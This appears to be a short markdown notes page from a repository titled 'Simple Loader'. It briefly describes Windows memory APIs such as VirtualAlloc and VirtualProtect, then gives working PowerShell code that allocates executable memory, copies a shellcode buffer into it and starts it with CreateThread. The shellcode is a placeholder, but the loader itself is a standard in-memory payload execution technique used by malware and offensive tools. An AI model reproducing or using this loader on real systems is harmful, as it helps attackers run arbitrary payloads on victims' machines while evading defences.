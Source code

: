 # Simple Loader

## VirtualAlloc

Reserves, commits, or changes the state of a region of memory within the virtual address space of the calling process.

## VirtualFree

Releases, decommits, or releases and decommits a region of memory within the virtual address space of the calling process.

## VirtualProtect

Changes the protection on a region of committed pages in the virtual address space of the calling process.

```
VirtualProtect(memory_execute, memory_allocation, PAGE_EXECUTE, &ignore);
```

## VirtualProtectEx

```
VirtualProtectEx
```

## Move Memory

```
RtlMoveMemory(&destMemAddr,&source, length);
MoveMemory(&destMemAddr,&source, length);
CopyMemory(&destMemAddr,&source, length);
FillMemory(&destMemAddr,1, ByteByteOfShellcode);
```

## Powershell

```powershell
[Byte[]] $buf = <shellcode>
$size = $buf.Length
[IntPtr]$addr = [Kernel32]::VirtualAlloc(0, $size, 0x3000, 0x40);
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
$thandle = [Kernel32]::CreateThread(0, 0, $addr, 0, 0, 0);
```

```powershell
$Code = @"
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
"@

$WinAPI = Add-Type -memberDefinition $Code -Name "Win32" -namespace Win32Functions -passthru

[Byte[]] $buf = <shellcode>

$addr = $WinAPI::VirtualAlloc(0,[Math]::Max($buf.Length,0x1000),0x3000,0x40)

[System.Runtime.InteropServices.Marshal]::Copy($buf,0,$addr,$buf.Length)

$WinAPI::CreateThread(0,0,$addr,0,0,0)
```

---
## References

- [Mr. Rc: Exploring Virtual Memory and the Virtual Memory Management API.](https://de-engineer.github.io/Understanding-Virtual-Memory-Paging-and-other-memory-related-concepts/)

- [VirtualAlloc Function](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)

- [Reserving and Committing Memory](https://learn.microsoft.com/en-us/windows/win32/memory/reserving-and-committing-memory)